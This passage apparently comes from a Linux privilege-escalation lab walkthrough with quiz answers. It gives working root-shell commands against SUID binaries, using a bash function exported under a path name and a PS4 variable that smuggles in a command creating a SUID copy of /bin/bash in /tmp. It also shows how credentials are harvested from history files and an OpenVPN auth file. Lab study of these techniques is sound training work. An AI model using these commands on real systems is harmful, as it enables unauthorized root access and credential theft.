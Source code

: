 In Bash versions prior to 4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

It is possible to create a new bash function with the name "`/usr/sbin/service`" and then export that function with:

`function /usr/sbin/service { /bin/bash -p; }`

`export -f /usr/sbin/service`

Now when the `suid-env2` executable is ran a root shell is obtained

## SUID / SGID Executables - Abusing Shell Features (#2)

The following will not work on bash versions above 4.4.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.

Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash: `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Now executing `/tmp/rootbash -p` will give a shell with root privileges.

## Passwords and Keys - History Files

If a user types their password on the command line instead of into a password prompt, it may get recorded in a history file.

Execute `cat ~/.*history | less`

Note that the user has attempted to connect to a MySQL server at somepoint. As they mistyped their command line prompt, we know their password and the root user can now be switched to.

**Questions**

    1. What is the full mysql command the user executed?

`mysql -h somehost.local -uroot -ppassword123`

## Passwords and Keys - Config Files

Config files often contain passwords in plaintext or other reversible formats.

In our users home directory there is an openvpn configuration file. This configuration file references another location where the root users details can be found.

`cat myvpn.ovpn` shows an interesting line - `auth-user-pass /etc/openvpn/auth.txt`

Examining this file provides the root users credentials

**Questions**

    1. What file did you find the root user's credentials in?   

`/etc/openvpn/auth.txt`
